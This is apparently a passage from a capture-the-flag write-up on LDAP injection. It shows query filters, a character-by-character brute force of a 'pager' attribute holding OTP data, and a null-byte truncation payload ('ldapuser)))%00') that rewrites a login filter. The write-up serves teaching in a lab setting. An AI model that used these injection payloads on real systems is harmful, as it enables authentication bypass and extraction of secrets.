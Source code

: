     
    
    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=*)
        (mail=*)
      )
      (pager=*)
    )
    

This would return results only if the mail attribute had data in it.

#### Pager Brute

Next I wanted to extract the data from the pager attribute, using a query like
`ldapuser)({attrib}={otp}*`. So to see if `2` is the first character in
`pager`, the query would look like:

    
    
    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)
        (pager=2*)
      )
      (pager=*)
    )
    

#### Admin Check

The second order injection gets more complete. I submitted `ldapuser)))%00`.
In the first query, for login, that would result in:

    
    
    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)))%00)
      )
      (pager=*)
    )
    

If I truncate that at the null, it becomes:

    
    
    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)
      )
    )
    
